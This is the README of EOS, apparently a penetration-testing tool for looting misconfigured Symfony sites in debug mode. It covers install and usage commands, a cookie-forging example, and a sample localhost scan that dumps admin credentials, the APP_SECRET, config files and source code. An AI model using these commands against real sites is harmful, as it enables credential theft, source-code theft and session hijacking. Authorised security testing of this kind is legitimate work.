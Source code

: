 # Enemies Of Symfony (EOS)

`EOS` loots information from a Symfony target in debug mode:

| Section | Description |
| --- | --- |
| General | Get general information about the target. |
| Phpinfo | Extract Symfony environment variables from the exposed phpinfo(). |
| Routes | Get the list of registered routes. |
| Request logs | Look for credentials in POST request logs. |
| Project files | Retrieve project files (configuration, database, etc.) based on a wordlist. |
| Sources | Extract the application source code. |
| Cookies | Craft Remember Me cookies. |

More info at https://www.synacktiv.com/posts/pentest/looting-symfony-with-eos.html.

Note that this tool does not exploit any Symfony vulnerability. The profiler is
a useful component for developers and `EOS` simply takes advantage on
misconfigured Symfony applications. In fact, the profiler [documentation][1]
prominently warns developers:

> Never enable the profiler in production environments as it will lead to major security vulnerabilities in your project.

Thanks to all the Symfony team for their awesome work!

[1]: https://symfony.com/doc/current/profiler.html

## Installation

```bash
$ git clone https://github.com/Synacktiv/eos
$ python3 -m pip install --user ./eos
```

## Usage

```bash
usage: eos [-h] [-V] [-v] [--no-colors] {scan,sources,get,creds,cookies} ...

  ███████╗ ██████╗ ███████╗
  ██╔════╝██╔═══██╗██╔════╝
  █████╗  ██║   ██║███████╗
  ██╔══╝  ██║   ██║╚════██║
  ███████╗╚██████╔╝███████║  Enemies Of Symfony
  ╚══════╝ ╚═════╝ ╚══════╝  v1.0.0

positional arguments:
  {scan,sources,get,creds,cookies}
    scan                 perform a full scan
    sources              download application source code
    get                  download a file from the application
    creds                extract credentials from request logs
    cookies              craft remember me cookies with a great lifetime

optional arguments:
  -h, --help             show this help message and exit
  -V, --version          display version info
  -v, --verbose          increase verbosity
  --no-colors            disable colors in output

examples:
  eos scan http://localhost
  eos scan -v -t 4 http://localhost
  eos scan --headers 'Cookie: foo=bar; john=doe' 'User-Agent: EOS' -- http://localhost
  eos get http://localhost config/services.yaml
  eos cookies -u jane_admin -H '$2y$13$IMalnQpo7xfZD5FJGbEadOcqyj2mi/NQbQiI8v2wBXfjZ4nwshJlG' -s 67d829bf61dc5f87a73fd814e2c9f629
```

```bash
$ eos scan http://localhost --output results
[+] Starting scan on http://localhost
[+] 2020-04-23 14:21:26.463352 is a great day

[+] Checks
[!] Target found in debug mode

[+] Info
[!]   Symfony 5.0.1
[!]   PHP 7.3.11-1~deb10u1
[!]   Environment: dev

[+] Request logs
[+] Found 9 POST requests
[!] Found the following credentials with a valid session:
[!]   jane_admin: kitten [ROLE_ADMIN]

[+] Phpinfo
[+] Available at http://localhost/_profiler/phpinfo
[+] Found 101 PHP variables
[!] Found the following Symfony variables:
[!]   APP_ENV: dev
[!]   APP_SECRET: 67d829bf61dc5f87a73fd814e2c9f629
[!]   DATABASE_URL: sqlite:///%kernel.project_dir%/data/database.sqlite
[!]   MAILER_URL: null://localhost

[+] Project files
[+] Found: composer.lock, run 'symfony security:check' or submit it at https://security.symfony.com
[!] Found the following files:
[!]   composer.lock
[!]   composer.json
[!]   config/bundles.php
[!]   config/bootstrap.php
[!]   config/packages/assets.yaml
[!]   config/packages/cache.yaml
[!]   config/packages/dev/debug.yaml
[!]   config/packages/dev/monolog.yaml
[!]   config/packages/dev/routing.yaml
[!]   config/packages/dev/swiftmailer.yaml
[!]   config/packages/dev/web_profiler.yaml
[!]   config/packages/doctrine_migrations.yaml
[!]   config/packages/doctrine.yaml
[!]   config/packages/framework.yaml
[!]   config/packages/html_sanitizer.yaml
[!]   config/packages/prod/doctrine.yaml
[!]   config/packages/prod/monolog.yaml
[!]   config/packages/prod/routing.yaml
[!]   config/packages/prod/webpack_encore.yaml
[!]   config/packages/routing.yaml
[!]   config/packages/security.yaml
[!]   config/packages/sensio_framework_extra.yaml
[!]   config/packages/swiftmailer.yaml
[!]   config/packages/test/dama_doctrine_test_bundle.yaml
[!]   config/packages/test/framework.yaml
[!]   config/packages/test/monolog.yaml
[!]   config/packages/test/routing.yaml
[!]   config/packages/test/security.yaml
[!]   config/packages/test/swiftmailer.yaml
[!]   config/packages/test/twig.yaml
[!]   config/packages/test/validator.yaml
[!]   config/packages/test/webpack_encore.yaml
[!]   config/packages/test/web_profiler.yaml
[!]   config/packages/translation.yaml
[!]   config/packages/twig.yaml
[!]   config/packages/validator.yaml
[!]   config/packages/webpack_encore.yaml
[!]   config/routes/annotations.yaml
[!]   config/routes/dev/framework.yaml
[!]   config/routes/dev/web_profiler.yaml
[!]   config/routes.yaml
[!]   config/services.yaml
[!]   data/database.sqlite
[!]   data/database_test.sqlite
[!]   package.json
[!]   public/index.php
[!]   public/robots.txt
[!]   README.md
[!]   src/Kernel.php
[!]   symfony.lock
[!]   var/cache/dev/url_generating_routes.php
[!]   var/cache/dev/url_matching_routes.php
[!]   var/log/dev.log

[+] Routes
[!] Found the following routes:
[!]   /{_locale}/admin/post/
[!]   /{_locale}/admin/post/
[!]   /{_locale}/admin/post/new
[!]   /{_locale}/admin/post/{id}
[!]   /{_locale}/admin/post/{id}/edit
[!]   /{_locale}/admin/post/{id}/delete
[!]   /{_locale}/blog/
[!]   /{_locale}/blog/rss.xml
[!]   /{_locale}/blog/page/{page}
[!]   /{_locale}/blog/posts/{slug}
[!]   /{_locale}/blog/comment/{postSlug}/new
[!]   /{_locale}/blog/search
[!]   /{_locale}/login
[!]   /{_locale}/logout
[!]   /{_locale}/profile/edit
[!]   /{_locale}/profile/change-password
[!]   /{_locale}

[+] Project sources
[!] Found the following source files:
[!]   src/Command/AddUserCommand.php
[!]   src/Command/DeleteUserCommand.php
[!]   src/Command/ListUsersCommand.php
[!]   src/Controller/Admin/BlogController.php
[!]   src/Controller/BlogController.php
[!]   src/Controller/SecurityController.php
[!]   src/Controller/UserController.php
[!]   src/DataFixtures/AppFixtures.php
[!]   src/Entity/Comment.php
[!]   src/Entity/Post.php
[!]   src/Entity/Tag.php
[!]   src/Entity/User.php
[!]   src/EventSubscriber/CheckRequirementsSubscriber.php
[!]   src/EventSubscriber/CommentNotificationSubscriber.php
[!]   src/EventSubscriber/ControllerSubscriber.php
[!]   src/EventSubscriber/RedirectToPreferredLocaleSubscriber.php
[!]   src/Events/CommentCreatedEvent.php
[!]   src/Form/CommentType.php
[!]   src/Form/DataTransformer/TagArrayToStringTransformer.php
[!]   src/Form/PostType.php
[!]   src/Form/Type/ChangePasswordType.php
[!]   src/Form/Type/DateTimePickerType.php
[!]   src/Form/Type/TagsInputType.php
[!]   src/Form/UserType.php
[!]   src/Kernel.php
[!]   src/Pagination/Paginator.php
[!]   src/Repository/PostRepository.php
[!]   src/Repository/TagRepository.php
[!]   src/Repository/UserRepository.php
[!]   src/Security/PostVoter.php
[!]   src/Twig/AppExtension.php
[!]   src/Twig/SourceCodeExtension.php
[!]   src/Utils/Markdown.php
[!]   src/Utils/MomentFormatConverter.php
[!]   src/Utils/Slugger.php
[!]   src/Utils/Validator.php

[+] Saving files to results
[+] Saved 88 files

[+] Generated tokens: 5894a5 f68efa
[+] Scan completed in 0:00:13
```
